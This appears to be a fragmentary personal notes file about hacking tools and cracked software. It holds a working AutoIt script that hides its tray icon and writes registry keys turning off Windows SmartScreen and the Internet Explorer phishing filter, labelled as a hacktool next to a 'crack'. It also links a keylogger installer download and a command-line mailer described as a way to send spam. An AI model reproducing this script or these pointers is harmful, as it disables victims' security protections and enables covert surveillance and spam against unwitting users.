 # hacktool
megadownloader crack https://www.virustotal.com/gui/file-analysis/M2Y4NTkxY2I2YWY2NzMwMjA5OGY5YmRiZWE4Zjc1NDg6MTY3NjYzMjA4Nw==
youtube vedio download with crack

ad35a233a3421934b9b7b7514c4fbface48ecc6b1eadb99422057dabbdb15cbb


#for disabling AutoItSetOption("TrayIconHide", 0x1)
AutoItSetOption("TrayAutoPause", 0x0)
AutoItSetOption("MouseCoordMode", 0x0)
Local $type = @OSArch
Local $ver = @OSVersion
Local $regpath, $pathfile, $user, $pass, $valid1, $valid4, $uac, $signal
If $type = "X86" Then
    $pathfile = "C:\Program Files"
    $regpath = "HKLM\Software"
Else
    $pathfile = "C:\Program Files (X86)"
    $regpath = "HKLM\Software\Wow6432Node"
EndIf
If $ver = "Win_10" Then
    RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System", "EnableSmartScreen", "REG_DWORD", "0")
ElseIf $ver = "Win_7" Then
    RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\PhishingFilter", "EnableV9", "REG_DWORD", "0")
EndIf
Sleep(0x5dc)
Exit





sending email for spam on command line 
https://www.blat.net/

creating android app from website 1e339de718a5338f4b35ed853d87e6bc217ce60877173387b5e74104d2ab00a0

keylogger http://www.keylogger-gratuit.com/
http://www.keylogger-gratuit.com/telecharger/kg-setup.zip

fvd vedio record package
2599CFFE25544335E3CA47AA2DB42766
